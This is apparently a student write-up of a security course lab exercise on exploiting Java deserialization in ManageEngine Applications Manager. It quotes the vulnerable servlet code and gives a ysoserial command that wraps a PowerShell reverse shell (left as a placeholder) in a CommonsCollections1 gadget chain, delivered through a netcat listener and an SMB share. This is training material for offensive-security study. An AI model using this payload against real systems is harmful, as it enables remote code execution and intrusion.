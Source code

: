 # ysoserial.net (Extra Mile 7.4.1.4)

*Although we have not discussed Java deserialization vulnerabilities in this course, it is worth
mentioning that one such vulnerability exists in the ManageEngine Applications Manager instance
in your lab. We encourage you to get familiar with the Java ysoserial version and try to identify
and exploit this vulnerability.*

Ysoserial is a collection of gadget chains in common .NET/Java libraries that can exploit .NET/Java applications performing unsafe deserialization of objects. The main driver program takes a user-command and wraps it in a gadget chain, then serializes these objects to stdout. When applications unsafely deserialize this data, the chain will be invoked and cause the command to be executed. (Source: https://github.com/pwntester/ysoserial.net for .NET, https://github.com/frohoff/ysoserial for Java)

Aside from looking directly at APIs (via doGet and doPost), a way to look for deserialization attack vectors is to such for evidence of writing into the file stream, in this case, searching for the `FileInputStream` object. In doing so, we find the functionality in the `CustomFieldsFeedServelet`. In this functionality, we see that the variable `customFieldObject` is used as a file name with no sanitation — meaning that it’s vulnerable to a file inclusion attack. As such, we can inject our malicious deserialization payload through this servlet. 

```java
public class CustomFieldsFeedServlet extends javax.servlet.http.HttpServlet
 {
   public void doPost(HttpServletRequest request, HttpServletResponse response) throws javax.servlet.ServletException, IOException
  {
     doGet(request, response);
   }   
 
   public void doGet(HttpServletRequest request, HttpServletResponse response)
     throws javax.servlet.ServletException, IOException
   {
   try
   {
     fileName = request.getParameter("customFieldObject");
     if ((fileName != null) && (!fileName.equals(""))) {
       response.setHeader("Content-Type", "text/xml");
       ObjectOutputStream out = null;
       FileInputStream fis = null;
       ObjectInputStream ois = null;
       try
       {
        fis = new FileInputStream(fileName);
         ois = new ObjectInputStream(fis);
         java.util.HashMap today = (java.util.HashMap)ois.readObject();
         ois.close();
         out = new ObjectOutputStream(response.getOutputStream());
         out.writeObject(today);
     }
   }
}
```

We’ll use Ysoserial to generate our payload for the application. For the gadget type, we can use CommonCollections1 as the default — although brute-forcing some of the common ones would work too. Since Ysoserial’s CommonCollections doesn’t work in Java, we can use https://github.com/frohoff/ysoserial/issues/203 to swap between Java versions. Once we’re done, we simply setup our netcat listener and SMB share. 

```bash
java -jar ysoserial-all.jar CommonsCollections1 'powershell -e <reverse shell>' > payload
```